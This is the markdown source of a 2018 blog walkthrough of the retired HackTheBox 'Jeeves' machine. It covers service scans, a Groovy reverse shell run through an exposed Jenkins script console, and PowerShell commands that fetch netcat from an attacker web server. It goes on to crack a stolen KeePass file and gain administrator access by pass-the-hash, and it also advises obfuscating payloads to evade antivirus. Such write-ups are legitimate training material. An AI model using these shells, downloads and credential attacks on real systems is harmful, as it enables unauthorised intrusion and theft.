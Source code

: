 ---
layout: post
title: "HackTheBox - Jeeves writeup"
subtitle: "~ Walkthrough of Jeeves machine from HackTheBox ~"
date: 2018-05-23
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true

# Introduction
Jeeves is a medium rated machine on HackTheBox platform which got retired last weekend (18.05.2018). Core of this machine revolves around pwnage of Jenkins. Let's get to it.

<img src="/img/blog/htb-jeeves/htb-jeeves-00.png">

***

# Scanning and Enumeration 
As per usual, start out with **Nmap**:
```console
root@EdgeOfNight:~# nmap -sV -T4 -sS 10.10.10.63

Starting Nmap 7.60 ( https://nmap.org ) at 2018-05-22 18:24 BST
Nmap scan report for 10.10.10.63
Host is up (0.062s latency).
Not shown: 996 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
```

For the sake of keeping this blogpost short, I'll ignore enumeration of port 135 and 445 as they most likely aren't part of the overall solution. 

## HTTP port 80
Upon visiting the HTTP server at port 80 we are present with somewhat custom made search engine.

<img src="/img/blog/htb-jeeves/htb-jeeves-01.png">

Afterwards, I run **Gobuster** to search for any hidden content or directories, but find none. Not much one can do from here on... A dead end!

## HTTP Port 50000

<img src="/img/blog/htb-jeeves/htb-jeeves-02.png">

Same approach using **Gobuster**.
```console
root@EdgeOfNight:~# gobuster -e -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://10.10.10.63:50000/askjeeves (Status: 302)
```
Fortunately for us, `/askjeeves/` exposes an unprotected Jenkins install. 

<img src="/img/blog/htb-jeeves/htb-jeeves-03.png">

This allows us to either upload a malicious .exe file through job creation or run custom commands in the Jenkins console. I chose the latter. If you however decide to stick with job creation, make sure that the files you upload are well obfuscated so that the antivirus doesn't delete them ;). I'd definitely recommend [VeilFramework](https://github.com/Veil-Framework/Veil) for this purpose.

***

# Exploitation
Navigate to the script console (*Manage Jenkins -> Script Console*) - `http://10.10.10.63:50000/askjeeves/script`. This allows us to run arbitrary GroovyScript (similar to java) commands. Doing a bit of research, I find a GroovyScript reverse shell on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

{% highlight java %}
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

If we rewrite the port and the host, we should be able to get a nice netcat reverse shell. 

<img src="/img/blog/htb-jeeves/htb-jeeves-04.png">

Awesome! User's hash is located at `C:\Users\kohsuke\Desktop`. Go and get it! 

# Privilege escalation
Unfortunately, we still need to escalate our privileges in order to capture all the flags. There are two main methods of doing so - cracking of .kdbx file and token impersonation (*rotten potato method*). Below, the first method will be described. 

## Keepas password manager
Doing a bit of roaming around the file system, I find an interesting .kdbx file. This file extension is associated with *Keepass password manager*. The mentiond .kdbx file can be found at `C:\Users\kohsuke\Documents\CEH.kdbx`. To transfer this file into our computer I first put **netcat** binary (in Kali: `/usr/share/windows-binaries/nc.exe`) onto the Windows system via Powershell:

{% highlight powershell %}
# Run inside the reverse shell: 
powershell -c '(new-object System.Net.WebClient).DownloadFile("http://IP/nc.exe", "C:\Windows\Temp\nc.exe")'
# OR
powershell -c 'Invoke-WebRequest "http://IP/nc.exe" -OutFile "C:\Windows\Temp\nc.exe"' 
{% endhighlight %}

>> Note: Don't forget to start a web server before you actually try to download a file.

Thanks to **netcat**, we are able to transfer the .kdbx file into our filesystem. We can then proceed to generate a hash with **keepass2john**.
```console
root@EdgeOfNight:/tmp# keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
``` 

This hash can be then cracked with usual programs like **Hashcat** or **JohnTheRipper**.
```console
root@EdgeOfNight:/tmp# john --format="keepass" --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:12 DONE (2018-05-22 19:56) 0.01371g/s 754.2p/s 754.2c/s 754.2C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The master password of the Keepass manager is `moonshine1`! By installing Keepass2 (*apt-get install keepass2*), we can view the .kdbx file and see all saved up passwords.
The preview looks like this:

<img src="/img/blog/htb-jeeves/htb-jeeves-05.png">

None of these passwords are actually usable apart from *Backup stuff*.  

<img src="/img/blog/htb-jeeves/htb-jeeves-06.png">

Does this look similar - `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`? Yup! It is an NTLM hash which we can use for pass the hash attack! Both Metasploit's **psexec** module or **pth-winexe** can be used. 
```console
root@EdgeOfNight:~# pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

```

Normally I'd end the blog here as we gained root / administrator privileges. However, retrieving the root flag is a bit tricky. This is the part where most people get frustrated, because normal directory listing doesn't yield any useful results. The flag itself is hidden inside an alternate data stream. Alternate data streams can be listed with `dir /r`:

<img src="/img/blog/htb-jeeves/htb-jeeves-07.png">

and viewed with `more < hm.txt:root.txt`:

<img src="/img/blog/htb-jeeves/htb-jeeves-08.png">

***

# Conclusion
Congratulations! At this point there's nothing left - both flags have been retrieved. If you want to view alternative methods which I didn't show (such as rotten potato), I'd highly recommend Ippsec's [video](https://www.youtube.com/watch?v=EKGBskG8APc). His content is great and I often learn many new methods from his tutorials :-) ! Thanks for reading.

~V3

